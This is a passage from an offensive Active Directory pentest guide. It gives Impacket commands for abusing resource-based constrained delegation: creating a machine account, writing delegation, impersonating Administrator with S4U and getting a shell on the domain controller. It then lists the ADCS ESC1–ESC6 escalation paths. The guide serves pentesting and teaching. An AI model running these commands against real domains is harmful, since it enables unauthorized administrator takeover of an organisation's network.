 | ![[resource_based_constrained_delegation_schema.png]](https://en.hackndo.com/assets/uploads/2019/02/resource_based_constrained_delegation_schema.png) |
| :---------------------------------------------------------------------------------------------------------------------------------------------------: |
|                                                                  **Source: HacknDo**                                                                  |

To exploit an `RBCD`, we first need to create a machine:

```bash
addcomputer.py -computer-name 'rbcd_created_machine$' -computer-pass 'rbcdpass' -dc-host $DC_IP $DOMAIN/$USER:$PASSWORD
```

Now, we add the `RBCD` from `rbcd_created_machine$` to the server with `RBCD`.
```bash
rbcd.py -delegate-from 'rbcd_created_machine$' -delegate-to $SERVER_NAME_WITH_DELEGATION -dc-ip $DC_IP -action 'write' -hashes ":$SERVER_HASH" $DOMAIN/$SERVER_NAME_WITH_DELEGATION
```

Our created machine has now delegation permission on our target, we can now use `S4U2Self` followed by `S4U2Proxy` and get an administrator ticket for the `DC`:

```bash
getST.py -spn "cifs/$DC_SPN" -impersonate Administrator -dc-ip $DC_IP $DOMAIN/'rbcd_created_machine$':rbcdpass

export KRB5CCNAME=TICKET_OF_ADMIN_OF_DC
wmiexec.py -k -no-pass @$DC_SPN
```

### ADCS

`ADCS` or `Active Directory Certificate Services` is Microsoft's PKI (Public Key Infrastructure). This means that `ADCS` allows integrity, authentication, non repudiation and confidentiality. Here we will be talking about `ESC1` to `ESC8` used for domain escalation. `ESC` stand for `Escalation`.

The main idea is that if you have enough rights, you can ask for certificates for a specific user, recover its `NT` hash and pass it or crack it.

Those appellations `ESCX` come from [this paper](https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf) from [Will Schroeder](https://twitter.com/harmj0y) and [Lee Christensen](https://twitter.com/tifkin_) also explained [in this blog](https://posts.specterops.io/certified-pre-owned-d95910965cd2) in a funnier way :). 

Here are the meaning of each `ESC` based on this paper:

- `ESC1`: Domain escalation via No Issuance Requirements + Enrollable Client
Authentication/Smart Card Logon OID templates + CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT

- `ESC2`: Domain escalation via No Issuance Requirements + Enrollable Any Purpose
EKU or no EKU

- `ESC3`: Domain escalation via No Issuance Requirements + Certificate Request
Agent EKU + no enrollment agent restrictions

- `ESC4`: Domain escalation via misconfigured certificate template access control

- `ESC5`: Domain escalation via vulnerable PKI AD Object Access Control

- `ESC6`: Domain escalation via the EDITF_ATTRIBUTESUBJECTALTNAME2 setting on
CAs + No Manager Approval + Enrollable Client Authentication/Smart Card
Logon OID templates
